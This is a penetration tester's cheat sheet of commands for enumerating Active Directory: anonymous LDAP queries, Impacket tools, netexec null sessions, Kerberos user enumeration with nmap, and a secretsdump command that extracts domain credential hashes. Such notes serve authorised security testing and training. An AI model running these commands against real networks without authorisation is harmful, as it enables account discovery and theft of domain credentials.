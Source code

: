 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #service-enumeration
# Note: Be cautious when brute forcing Active Directory, as it can trigger the Account Lockout Policy and disable user accounts.


## Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://"domain fqdn" -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all domain\User -dc-ip 172.21.0.0

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

## Netexec:

- netexec ldap "ip-address" -u "" -p "" -d "domain"

- netexec ldap "ip address" -u "Guest" -p "" -d "domain"

## Enumerating for users through kerberos

- sudo nmap --script=krb5-enum-users --script-args="krb5-enum-users.realm='megacorpone.com',users.txt" 172.21.0.0

## References: 

- PayloadAllTheThings:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/